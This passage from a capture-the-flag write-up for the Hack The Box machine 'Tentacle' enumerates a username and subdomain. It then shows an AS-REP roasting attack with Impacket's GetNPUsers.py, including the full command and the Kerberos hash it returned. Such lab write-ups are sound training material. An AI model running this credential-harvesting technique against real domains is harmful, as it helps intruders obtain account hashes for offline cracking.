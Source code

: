 # Enumeration-

Username- j.nakazawa@realcorp\.htb
Subdomain- srv01.realcorp.htb

**`ACCESS DENIED`**

![[Pasted image 20210626104626.png]]


# AS-REP-ROAST-

With the username, I can try to get a hash off of Kerberos using `GetNPUsers.py`.This will return a hash if the `UF_DONT_REQUIRE_PREAUTH` flag is set for the user. It works:

```bash
root@napster:~/Documents/HTB/Tentacle# GetNPUsers.py -no-pass -dc-ip 10.10.10.224 realcorp.htb/j.nakazawa -outputfile as_rep_roast.hash
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for j.nakazawa
$krb5asrep$18$j.nakazawa@REALCORP.HTB:451a5111f6c12657436c06890a2299f3$6bef0f93e99be9ee95839d4431d41f7c4a970cfe982ff53b98cac20fad7f16a0de82d00ea312e87f8fbb2e97747de1f1a1006ad18ce0aaa617d29883140f55351dacafa1452fc0e1e7191bbb4a7874f4e3fd8571201af425c9d04ee380fad3717662661b33df5be7f6b671e6a74cc385d2e7c1ff655cd7addbd1fd9985a5b677d845e1ccff5c7fc979ad163ed8e40045eb1434a4a1e698150ce4cf4abf5f1be1dafb3ab650f12f52550daf97a293f0a89958522e021bc2192dcf74a6bcb53cd16863b563cb1715b8d4e33da77cb792045cfe1ee3386b7408221b
```

This type of hash $krb5asrep$18$ can't be cracked by hashcat.